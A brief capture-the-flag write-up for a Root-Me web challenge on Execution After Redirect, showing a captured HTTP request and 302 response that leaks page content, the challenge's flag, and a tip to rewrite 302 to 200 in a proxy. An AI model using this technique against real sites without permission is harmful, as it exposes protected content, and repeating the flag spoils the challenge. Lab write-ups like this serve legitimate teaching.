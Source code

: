 # HTTP - Improper redirect(EAR)

Sound like this one relates with EAR(execution after redirection)

***

Request

GET /web-serveur/ch32/index.php HTTP/1.1 Host: challenge01.root-me.org User-Agent: Mozilla/5.0 (X11; Linux x86\_64; rv:91.0) Gecko/20100101 Firefox/91.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,_/_;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Connection: close Cookie: \_ga\_SRYSKX09J7=GS1.1.1661155511.14.1.1661155942.0.0.0; \_ga=GA1.1.536088429.1661133467 Upgrade-Insecure-Requests: 1

***

Response

HTTP/1.1 302 Found Server: nginx Date: Mon, 22 Aug 2022 08:15:47 GMT Content-Type: text/html; charset=UTF-8 Connection: close Location: ./login.php?redirect Content-Length: 547

## Welcome !

Yeah ! The redirection is OK, but without exit() after the header('Location: ...'), PHP just continue the execution and send the page content !...

[CWE-698: Execution After Redirect (EAR)](http://cwe.mitre.org/data/definitions/698.html)

The flag is : ExecutionAfterRedirectIsBad

***

Then capture the server's response and change 302 found -> 200 ok
